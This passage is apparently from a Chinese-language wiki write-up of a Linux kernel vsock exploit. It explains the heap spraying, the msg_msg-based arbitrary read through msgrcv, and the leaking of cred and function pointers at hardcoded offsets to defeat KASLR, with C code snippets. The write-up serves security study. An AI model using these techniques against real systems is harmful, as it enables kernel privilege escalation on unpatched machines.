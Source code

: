 </div>
![](T01a2a2d47c9494c4a5.png "T01a2a2d47c9494c4a5.png")

<div lang="chinese" dir="ltr" class="mw-content-ltr">
如果在處理 msgsnd() 的過程中發生了來自 setsockopt()線程的 msg_msg.security內存損壞，進而SELinux權限檢查失敗； 在這種情況下，msgsnd()返回-1，損壞的msg_msg被銷毀；釋放msg_msg.security可以釋放原始msg_msg； 用一個可控的payload 覆蓋原始msg_msg： msgsnd()失敗後，漏洞就會調用pthread_barrier_wait()，調用127個用於堆噴射的pthreads； 這些pthreads執行setxattr()的payload； 原始msg_msg被可控的數據覆蓋，msg_msg.next指針存儲vsock_sock對象的地址；

</div>
![](T0140baae964febb059.png "T0140baae964febb059.png")

<div lang="chinese" dir="ltr" class="mw-content-ltr">
通過從存儲被覆蓋的 msg_msg的消息隊列中接收消息，將vsock_sock內核對象的內容讀到用戶空間：

</div>
    ret = msgrcv(msg_locations[0].msq_id, kmem, ARB_READ_SZ, 0,
                    IPC_NOWAIT | MSG_COPY | MSG_NOERROR);

<div lang="chinese" dir="ltr" class="mw-content-ltr">
尋找攻擊目標
------------

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
以下是我找到的點： 1.專用的塊緩存，如PINGv6和sock_inode_cache有很多指向對象的指針 2.struct mem_cgroup \*sk_memcg指針在vsock_sock.sk偏移量664處。 mem_cgroup結構是在kmalloc-4k塊緩存中分配的。 3.const struct cred \*owner指針在vsock_sock.sk偏移量840處，存儲了可以覆蓋進行權限升級的憑證的地址。 4.void (\*sk_write_space)(struct sock \*)函數指針在vsock_sock.sk偏移量688處，被設置為sock_def_write_space()內核函數的地址。它可以用來計算KASLR偏移量。

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
下面是該漏洞如何從內存中提取這些指針:

</div>
    #define SK_MEMCG_RD_LOCATION    (DATALEN_MSG + SK_MEMCG_OFFSET)
    #define OWNER_CRED_OFFSET    840
    #define OWNER_CRED_RD_LOCATION    (DATALEN_MSG + OWNER_CRED_OFFSET)
    #define SK_WRITE_SPACE_OFFSET    688
    #define SK_WRITE_SPACE_RD_LOCATION (DATALEN_MSG + SK_WRITE_SPACE_OFFSET)
    /*
     * From Linux kernel 5.10.11-200.fc33.x86_64:
     *   function pointer for calculating KASLR secret
     */
    #define SOCK_DEF_WRITE_SPACE    0xffffffff819851b0lu
    unsigned long sk_memcg = 0;
    unsigned long owner_cred = 0;
    unsigned long sock_def_write_space = 0;
    unsigned long kaslr_offset = 0;

    /* ... */

        sk_memcg = kmem[SK_MEMCG_RD_LOCATION / sizeof(uint64_t)];
        printf("[+] Found sk_memcg %lx (offset %ld in the leaked kmem)\n",
                sk_memcg, SK_MEMCG_RD_LOCATION);
